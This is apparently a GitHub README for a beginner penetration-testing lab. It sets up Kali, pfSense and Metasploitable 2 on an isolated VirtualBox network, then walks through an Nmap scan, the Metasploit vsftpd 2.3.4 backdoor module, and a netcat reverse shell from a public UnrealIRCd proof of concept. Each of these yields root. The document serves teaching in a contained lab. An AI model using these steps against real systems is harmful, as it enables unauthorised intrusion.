



# Vulnerable Lab Environment Project - Part One

This multi-part project is to set up a vulnerable lab environment to conduct penetration tests against vulnerable machines, specifically Metasploitable 2 and Windows Server 2008. This project also serves as documentation to show that I can use certain tools and techniques.

The following topics will be covered in this project:

- Networking
- Penetration Testing / Ethical Hacking
- Privilege Escalation Techniques
- Mitigation Strategies

This will hopefully help new individuals who are expressing an interest in ethical hacking how to setup their own lab environment and to potentially conduct ethical penetration tests. In this repository we will install some virtual machines in preparation for later down the line. For this first part we will be focusing on Metasploitable and Kali Linux.

**DIFFICULTY**: BEGINNER
## Disclaimer

This lab environment and the contents within are strictly for education purposes only. The author of this repository takes no responsibility for any form of misuse against online systems targeted by the attacks discussed or used in this project.
## 💻 Specifications

The specifications for my own host machine are as follows in the table below that I will be using to conduct the experiment and run all of the virtual machines simultaneously. For the experiment, we will be using [Oracle VirtualBox](https://www.virtualbox.org/wiki/Downloads) as I prefer it over the likes of VMWare.

| PC Component  | Host Specification |
| ------------- | ------------- |
| CPU  | Ryzen 9 5900x  |
| RAM  | Corsair Vengence 4x8GB (3200MHz)  |
| HDD  | 4TB Ironwolf 7200RPM  |

Certain machines will require two network adapters. One of which being NAT and the second should be set to the internal network. Later we will configure the internal network adapters' IP Address so that all of the machines can communicate together. Before booting up the Metasploitable virtual machine it is best to set its network adapter to the internal network as you don't want to expose this machine to the internet.
## 💾 Installation

For this project, we will be using four different virtual machines. Certain machines could be changed to less intensive virtual machines depending on the specifications of your computer. For each machine we will need to download the .iso files from the operating systems' official websites which you can find attached in the table below:

| Operating System  | Machine Purpose |
| ------------- | ------------- |
| [pfSense](https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.6.0-RELEASE-amd64.iso.gz)  | This will function as a firewall for the virtual machines.  |
| [Kali Linux](https://www.kali.org/get-kali/#kali-virtual-machines)  | This will act as our attackers machine.  |
| [Metasploitable](https://sourceforge.net/projects/metasploitable/)  | This will act as our primary vulnerable machine.  |

To create a Virtual Machine in VirtualBox select -> **NEW** -> **SELECT ISO IMAGE** -> **CONFIGURE HARDWARE** -> **CONFIGURE HARD DISK**.

Each machine requires different amounts of RAM, Cores & Storage which are documented below. When setting up each machine make sure to enter the following specifications for each machine.

| Operating System  | RAM | Cores | Storage |
| ------------- | :---: | :---: | :---: |
| pfSense | 1GB | 1 | 16GB |
| Kali Linux | 4GB | 4 | 50GB |
| Metasploitable | 512MB | 1 | 8GB |

Before conducting any tests make sure to update any packages on the **Kali Linux** machine by using the following command:
```bash
sudo apt update && apt upgrade -y
```
You will also need to unzip the pfSense file before setting up that virtual machine on VirtualBox.
If you have issues installing Metasploitable 2 on VirtualBox, please refer to [this](https://www.geeksforgeeks.org/linux-unix/how-to-install-metasploitable-2-in-virtualbox/) useful GeeksForGeeks Article.

## 📌 IP Address Configuration

In order for the experiment to work we will need to set static IP addresses for each individual operating system. For ease of use, I've included a list of IP addresses and subnet masks in the table below: 

| Operating System  | IP Address | Subnet Mask |
| ------------- | ------------- | ------------- |
| pfSense | 192.168.1.1 | 255.255.255.0 |
| Kali Linux | 192.168.1.2 | 255.255.255.0 |
| Metasploitable | 192.168.1.3 | 255.255.255.0 |

Included below is what the overall finished network will look like once we finish the project:



Different operating systems have different methods of configuring the IP addresses of specific network adapters, especially to have persistence. Below are the commands that you would need to apply these settings:

pfSense:
```bash
Navigate to Interfaces → LAN → Set IPv4 to 192.168.1.1/24
```

Kali Linux:
```bash
sudo nano /etc/network/interfaces
# Add:
auto eth0
iface eth0 inet static
  address 192.168.1.2
  netmask 255.255.255.0
  gateway 192.168.1.1
```

Metasploitable:
```bash
sudo nano /etc/network/interfaces
# Add:
auto eth0
iface eth0 inet static
  address 192.168.1.3
  netmask 255.255.255.0
  gateway 192.168.1.1
```

You might need to restart the virtual machines or restart the network service by using the command on the Linux-based machines:

```bash
sudo systemctl restart NetworkManager
```

It's important for the sake of the experiment that each machine can ping each other so we will then ping each machine.

You may want to verify the IP Addresses on the Linux based machines with a command like:

```bash
ip a
```
## 🔨 Tools
In this project, we will be using numerous different tools to scan and attack different environments. Specifically, we will be using tools like Nmap, and Wireshark along with other tools and techniques.

| Tool          | Purpose                          | Example Command                     |
|---------------|----------------------------------|-------------------------------------|
| Nmap          | Network scanning                 | `nmap -sV -p 1-1000 192.168.1.3`   |
| Metasploit    | Exploit development/framework    | `msfconsole -q -x "use exploit/..."`|
| Wireshark     | Traffic analysis                 | Filter: `ip.addr == 192.168.1.3`   |

## 🕵️ Penetration Test of Metasploitable

Metasploitable serves as an intentionally vulnerable machine with numerous open ports with vulnerable services in order to help ethical hackers train to use new skills and techniques that might possibly be used in the real world. Since we've setup the environment already we can initially start the penetration test with a network scan to discover what services are running on the target machine.

Nmap Scan:
```bash
nmap -sT -sV -T5 [Metasploitable IP ADDRESS]
```
For those who don't understand what each argument in the above Nmap scan is we will break it down in the following table:

| NMAP Argument  | Argument Purpose |
| :---: | :---: |
| -sT | TCP Connect Scan |
| -sV | Version Detection |
| -T5 | Timing Template (Insane) |

Depending on the type of machine you are attempting to ethically conduct a penetration test on there may be mitigation strategies in place in order to prevent specific port scanning techniques using Nmap. It may be useful to explore the [NMAP Port Scanning Techniques](https://nmap.org/book/man-port-scanning-techniques.html) documentation to see what best suits your needs.

Nmap Scan Output:
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 17:45 BST
Nmap scan report for 192.168.1.3
Host is up (0.011s latency).
Not shown: 977 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:AE:92:AB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.06 seconds
```

Initial Access of Metasploitable:

Considering that we now know what services are running on the target machine we can conduct some research into any well-known vulnerabilities. This could be as simple as copying the information from the **VERSION** column in the NMAP scan and proceeding with ExploitDB or GitHub PoC in a Google search. We can also use our next penetration test tool known as **METASPLOIT**.

We access Metasploit using the following command on the Kali Linux machine (This may take some time to load):
```bash
msfconsole
```

Considering that we have already the NMAP scan we know that there are certain services that we can target using Metasploit. We can use the search functionality on metasploit to find exploits for the FTP version:
```bash
msf6 > search vsftpd 2.3.4
```

Metasploit Search Results:
```bash
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example, info 0, use 0, or use exploit/unix/ftp/vsftpd_234_backdoor 
```
Since a result has shown up from our search query we can select it using the following command:
```bash
msf6 > use 0
```
The 0 refers to the number displayed before the name in the **#** column. If there are multiple things displayed in the search you need to make sure you correctly select the exploit you want to use. Alternatively, you can copy the name of the exploit in its entirety and use a command like:
```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```
As stated previously if there weren't any results from the search then we can always look on Google for any proof-of-concept scripts which usually will come with decent documentation on how to run them, especially in regards to specific arguments that are required in order to execute the script.

Different modules on Metasploit require different settings to be applied before the module will execute correctly. We know this by entering the following command and seeing if it says **YES** in the **REQUIRED** column:
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```
For the exploit that we are using it should output the following options that we will need to edit:
```bash
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:po
                                       rt[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs
                                       .metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```
Since the RPORT is already set we only need to set the RHOST by using:
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST [Metasploitable IP ADDRESS]
```
Then all we need to do is execute the exploit by entering:
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
The output should look like the following, fortunately because we have gained access to the root User ID (UID) we dont actually need to privilege escalate:
```bash
[*] 192.168.1.3:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.3:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.2:39005 -> 192.168.1.3:6200) at 2025-05-18 22:43:35 +0100
```

## 🕵️ Another Vulnerable Metasploitable Service

The next service we will target on Metasploitable is UnrealIRCd which is running on port 6667. This is information that we have from the Nmap scan in the previous section. This time we will be Googling for the exploit online to show you how easy it is to find online scripts that can help you with penetration testing.

**Please be cautious when downloading a script and make sure that you have some knowledge of how it works before downloading it onto your machine as some threat actors may post malicious scripts in order to gain access to your machine for malicious purposes.**

Well will be using a different tool that we havent specifically used before. This can be used in combination with reverse shells that we may cover in a later project.

| Tool          | Purpose                          | Example Command                     |
|---------------|----------------------------------|-------------------------------------|
| Netcat          | Network Listening Tool                 | `nc -lnvp 1234`   |

Sometimes this method of searching for an exploit wont work as sometimes exploits arent published or covered as extensively if the service isnt wildly used.



Its useful to learn some programming languages to better understand how a script works. In the case of this script we can see theres a couple of arguements that we need to input in order to execute the script which is covered extensivly in the readme.



We need to setup a listener to catch the reverse shell that we will be using later on. Make sure to run this in its own terminal:
```bash
nc -lnvp 4444
```
The arguements of the command that we will be using for the purpose of gaining access to the machine are covered in the table below:

| NC Argument  | Argument Purpose |
| :---: | :---: |
| -l | Listen Mode |
| -n | Numeric-only IP Address |
| -v | Verbose Mode |
| -p | Specifying Port |

For those who dont know how to copy a GitHub repository onto your attacking machine, simply click on the green **Code** button and copy the **HTTPS** link. In your command line enter:

```bash
git clone [GitHub Repository Link]
```
We then need to navigate to the file we just downloaded from GitHub and read through the the **Usage** on the readme. Some GitHub repositories wont have strong documentation and sometimes you will need to figure out how the script works and alter it using something like nano.

```bash
python3 script.py [Metasploitable IP] [Metasploitable Port] [Kali Linux IP] [Netcat Port]
```

Once running this command if you go back to your netcat listener you should see that you have connected to the target machine with root privileges:

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.3] 47545
whoami
root
```
## Recommendations
Obviously, the Metasploitable machine is intentionally vulnerable so I can only give some generic advice on how to better secure a vulnerable machine like it.
- Dont keep services on default ports (Make them harder for threat actors to find)
- Correctly setup firewall (Setup some form of protection for your network)
- Update services and packages (Good practice)
## Conclusion

We've covered a couple of different methods that I would use to look for exploits online to conduct a penetration test against a vulnerable machine specifically Metasploitable. Bear in mind that the services that run on this machine are extremely dated and have more than likely been patched on many global machines. That's not to say that every machine that is running these services have been patched as some network/security administrators may have forgot to patch them or simply havent experienced a cyber attack as of yet against the company or service. The vast majority of these companies who arent patching these vulnerable services likely dont care or know about how dangerous cyber attacks are until they happen.

Thank you to [@chancej715](https://github.com/chancej715) for posting your proof of concept exploit to GitHub that allows me to show how online repositories can be useful to conduct ethical penetration tests.

In the next repository we will be attacking the Windows Server 2008 machine, that we setup earlier, using some different methods to the ones talked about in this repository.
## Authors

- [@exo-exe](https://www.github.com/exo-exe)


## License

[MIT](https://choosealicense.com/licenses/mit/)

